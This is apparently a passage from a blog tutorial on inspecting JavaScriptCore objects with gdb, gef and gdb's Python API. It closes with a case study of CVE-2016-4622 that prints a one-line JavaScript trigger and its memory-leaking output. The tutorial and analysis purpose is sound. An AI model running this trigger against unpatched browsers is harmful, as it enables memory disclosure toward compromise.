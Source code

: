 It is also possible to parse ``gdb``'s commands via ``gdb.parse_and_eval()``

```
gef➤  set $obj = ('JSC::JSCell'*) 0x55791e11fe00
>>> print(gdb.parse_and_eval('*$obj'))
{
  static StructureFlags = 0x0, 
  static needsDestruction = 0x0, 
  static TypedArrayStorageType = JSC::NotTypedArray, 
  m_structureID = 0x163, 
  m_indexingType = 0x0, 
  m_type = JSC::FinalObjectType, 
  m_flags = 0x0, 
  m_cellState = JSC::CellState::NewWhite
}
```

Obviously is possible to set convenience variables also using the python API

```
>>> obj = addr.cast(jsc_cell_type_pointer)
>>> gdb.set_convenience_variable('miao', obj)
>>> print(gdb.parse_and_eval('*$miao'))
{
  static StructureFlags = 0x0, 
  static needsDestruction = 0x0, 
  static TypedArrayStorageType = JSC::NotTypedArray, 
  m_structureID = 0x163, 
  m_indexingType = 0x0, 
  m_type = JSC::FinalObjectType, 
  m_flags = 0x0, 
  m_cellState = JSC::CellState::NewWhite
}
```

## Use gef with JSC

## Case study: CVE-2016-4622

Now that we have a deeper understanding of the ``JSC`` internals should be easier understand
what saelo was talking about.

To automatize the analysis you can use the following ``gdb``'s [script]({{ site.baseurl }}/public/code/javascriptcore/bp.gdb)
that sets breakpoints in important points to see what the vulnerability is actually "doing".

```
obj = {a: 1, b:2}
>>> a = [];for (var i = 0; i < 100; i++)a.push(i + 13.37);var b = a.slice(0, {valueOf: function() { a.length = 0;c=[obj];return 4;}});b
13.37,14.37,8.4879831644e-314,4.6843036111784e-310
```


## Linkography
